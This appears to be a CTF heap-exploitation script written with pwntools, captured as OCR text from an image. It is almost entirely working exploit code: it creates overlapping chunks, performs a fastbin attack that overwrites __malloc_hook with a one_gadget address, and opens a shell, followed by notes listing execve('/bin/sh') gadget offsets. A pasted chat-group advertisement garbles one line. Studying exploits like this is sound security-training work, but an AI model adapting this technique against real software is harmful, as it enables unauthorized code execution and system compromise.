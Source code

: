```
Add(1, 0x60, 'B'*0x60)
Add(2, 0x28, 'C'*0x28)
Add(3, 0xf0, 'D'*0xF0)
Add(4, 0x38, '/bin/sh\x00')

Free(0)        #UB<=>A
Free(2)        #Fastbin->C
Add(2, 0x28, 'C'*0x20+flat(0x140)+'\x00')
Free(3)        #UB<=>(A, B, C, D)

#Fastbin Attack
Free(1)
exp = 'A'*0x90
exp+= flat(0, 0x71)
exp+= flat(libc.symbols['__malloc_hook']-0x23)
Add(6, len(exp), exp)        #Fastbin->B->Hook

Add(7, 0x60, 'B'*0x60)
exp = '\x00'*(0x13-0x8)
exp+= p64(libc.address+0x4527a)
exp+= p64(libc.symbols['realloc'])
Add(8, 0x60, exp)

Cmd(1)
sh.recvuntil('Where?')
sh.send(str(9).ljust(0x30, '\x00'))
sh.recvuntil('Big or small??')
sh.send(str(0x70).ljust(0x8, '\x00'))

sh.interactive()+QQ君样：581499282一起吹水聊天

'''
ptrarray:        telescope 0x2020A0+0x0000555555554000 16
printf:            break *(0xE7C+0x0000555555554000)

0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

''' 
```
